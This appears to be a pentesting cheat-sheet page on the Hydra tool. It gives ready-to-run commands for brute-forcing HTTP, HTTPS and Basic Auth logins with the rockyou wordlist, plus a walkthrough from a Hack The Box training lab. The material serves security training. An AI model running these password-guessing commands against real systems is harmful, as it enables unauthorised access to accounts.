 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hydra

## Usage

{% tabs %}
{% tab title="HTTP" %}
{% code overflow="wrap" %}
```bash
hydra example.com -s 8000 -l admin -P rockyou.txt http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}
{% endtab %}

{% tab title="HTTPS" %}
{% code overflow="wrap" %}
```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```
{% endcode %}
{% endtab %}

{% tab title="Basic Auth" %}
{% code overflow="wrap" %}
```bash
$ hydra -L tiny_file_manager_users -P /usr/share/wordlists/rockyou.txt 192.168.221.201 http-get '/A=BASIC:F=401 Unauthorized'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1), attempt a failed login, and select something unique from the source code of the HTTP response (Figure 2).

<figure><img src="../../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
